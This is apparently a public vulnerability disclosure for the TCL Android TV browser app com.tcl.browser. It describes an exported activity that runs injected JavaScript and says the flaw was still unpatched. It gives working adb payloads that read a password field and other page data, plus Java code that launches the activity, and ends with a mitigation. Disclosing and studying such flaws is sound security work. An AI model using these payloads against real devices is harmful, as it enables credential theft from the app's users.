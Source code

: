 *** This vulnerability was initially disclosed to TCL on 9/2023 & is still vulnerable as of this commit. ***


![image](https://github.com/actuator/com.tcl.browser/assets/78701239/82062ff5-9806-499b-85ed-68cb3594e8ae)



## Vulnerability Report

### Overview:
A Remote Code Execution (RCE) vulnerability has been discovered in the `com.tcl.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary JavsScript code within the context of the application without any permissions.

### Application Details:

- **Vendor:** - Shenzhen TCL New Technology Co., Limited
- **Application Name:** 'Browser TV Web - BrowseHere' com.tcl.browser
- **Version:** 6.60.055_e974ebe7_231109_gp
- **Component:** com.tcl.browser.portal.browse.activity.BrowsePageActivity

### Vulnerability Details:

- **Vulnerability Type:** Remote Code Execution (RCE)
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None

### Description:

The `com.tcl.browser.portal.browse.activity.BrowsePageActivity` activity in the `com.tcl.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.tcl.browser` application.

This vulnerability is particularly concerning because:
- The victim does not need to grant any special permissions to any installed applications.
- The attack can be initiated remotely.

### Proof of Concept (PoC):


![image](https://github.com/actuator/com.tcl.browser/blob/main/poc.gif)

These ADB commands inject JavaScript to extract password data* & can be accomplished without ADB with no permissions.


```bash
adb shell am start -a android.intent.action.VIEW -d 'javascript:(function()%7Bvar%20password%20%3D%20document.getElementById(%27pass%27).value%3Balert(%27Password%3A%20%27%20%2B%20password)%3B%7D)()' com.tcl.browser/com.tcl.browser.portal.browse.activity.BrowsePageActivity
```

Facebook.com

![image](https://github.com/actuator/com.tcl.browser/blob/main/Facebook.gif)


![poc](https://github.com/actuator/com.tcl.browser/assets/78701239/15b32aff-92ac-41f2-9d48-4ae5a04ce354)

```
adb shell am start -a android.intent.action.VIEW -d 'javascript:(function()%7Bvar%20initialValue%20%3D%20document.querySelector(%27input[data-initial-value]%27).getAttribute(%27data-initial-value%27)%3Balert(%27Initial%20Data%20Value%3A%20%27%20%2B%20initialValue)%3B%7D)()' com.tcl.browser/com.tcl.browser.portal.browse.activity.BrowsePageActivity
```

Google.com

![image](https://github.com/actuator/com.tcl.browser/blob/main/Gmail.gif)



---

To demonstrate the vulnerability, one can create a simple Android app that invokes the exported `BrowsePageActivity` activity:


    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Create the intent to start the BrowsePageActivity of com.tcl.browser app
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("com.tcl.browser", "com.tcl.browser.portal.browse.activity.BrowsePageActivity"));

        // Set the URL data you want to pass (for example "http://www.example.com")
        intent.setData(Uri.parse("http://www.example.com"));
        // OR intent.setData(Uri.parse("javascript:alert('...');"));

        // Start the activity
        startActivity(intent);
        finish();
    }



### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.tcl.browser` app.

The enabled 'settings.setDomStorageEnabled(true)' value in the app's WebView allows for the use of the Web Storage API.

Risks include:

Credential harvesting if websites store sensitive data.
Manipulating or flooding stored values.
Assisting in malicious persistence.

### Mitigation and Recommendations:

1. **Restrict Activity Export:** Do not export activities unless necessary.
If required, implement proper authorization checks to ensure that only legitimate entities can invoke it.


